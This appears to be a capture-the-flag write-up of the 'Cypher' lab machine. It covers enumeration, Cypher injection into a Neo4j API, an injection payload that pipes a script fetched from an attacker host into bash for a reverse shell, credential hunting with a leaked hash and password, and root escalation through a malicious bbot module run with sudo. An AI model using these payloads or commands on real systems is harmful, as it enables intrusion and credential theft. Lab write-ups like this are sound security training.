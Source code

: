 # 🗝️ Cypher

## 📝 Overview

The machine involves exploiting a Neo4j database via Cypher injection, retrieving credentials, gaining SSH access, and escalating privileges using a misconfigured Python automation script (bbot).

## 🔍 Enumeration

Initial scanning:
```sh
nmap -p- -T4 10.10.11.57
nmap -sV -sC -p 22,80 10.10.11.57
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```
Directory and file discovery with ffuf:
```sh
ffuf -u http://cypher.htb/FUZZ -w /usr/share/secLists/Discovery/Web-Content/raft-large-files.txt -mc all -fc 404
ffuf -u http://cypher.htb/FUZZ -w /usr/share/secLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -mc all -fc 404 
ffuf -w /usr/share/secLists/Discovery/DNS/dns-Jhaddix.txt -u http://cypher.htb -H 'Host: FUZZ.cypher.htb' -mc all -fs 154
```
Found interesting API endpoint:
```sh
ffuf -u http://cypher.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt
```

## 🕵️‍♂️ Cypher Injection

With Burp Suite, we enumerate the Neo4j database:
```sh
GET /api/cypher?query=MATCH+(n)+RETURN+n+LIMIT+5
GET /api/cypher?query=MATCH+(u:USER)-[:SECRET]->(h:SHA1)+RETURN+u.name,+h.value
# we obtain user graphasm and 9f54ca4c130be6d529a56dee59dc2b2090e43acf (cannot crack)
```
Exploiting the auth endpoint via injection to get a reverse shell:
```http
POST /api/auth HTTP/1.1
Host: cypher.htb
Content-Type: application/json
{
  "username": "' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode(\"dummy; curl http://10.10.14.109:8000/shell.sh | bash\") YIELD statusCode AS hash RETURN hash;//",
  "password": "x"
}
```

## 🔑 Extracting Passwords

Upgrade shell:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Retrieve local credentials:
```sh
cat /home/graphasm/bbot_preset.yml
grep -iR "password\|passwd" / 2>/dev/null
# neo4j // cU4btyib.20xtCMCXkBmerhK
```

## 🖥️ SSH Access

Login as graphasm using reused password from neo4j:
```sh
ssh graphasm@10.10.11.57
```

## 🧗 Privilege Escalation via ISPConfig

Check sudo privileges:
```sh
id
groups
sudo -l
file /usr/local/bin/bbot
head -n 20 /usr/local/bin/bbot
ls -l /opt/pipx/venvs/bbot/lib/python3.12/site-packages/bbot/cli.py
```
List potentially dangerous module options:
```sh
/usr/local/bin/bbot --list-module-options | grep -iE 'file|script|eval|cmd|exec'
```
Create preset.yml:
```py
module_dirs:
  - .
modules:
  - evil
```
Create malicious module evil.py:
```py
from bbot.modules import ModuleBase

class EvilModule(ModuleBase):
    def run(self):
        import os
        os.system("/bin/bash")
```
Execute with sudo:
```sh
sudo /usr/local/bin/bbot -t dummy.com -p /tmp/test/preset.yml
```
This spawns a root shell and completes the privilege escalation.  
[Documentation](https://seclists.org/fulldisclosure/2025/Apr/19)
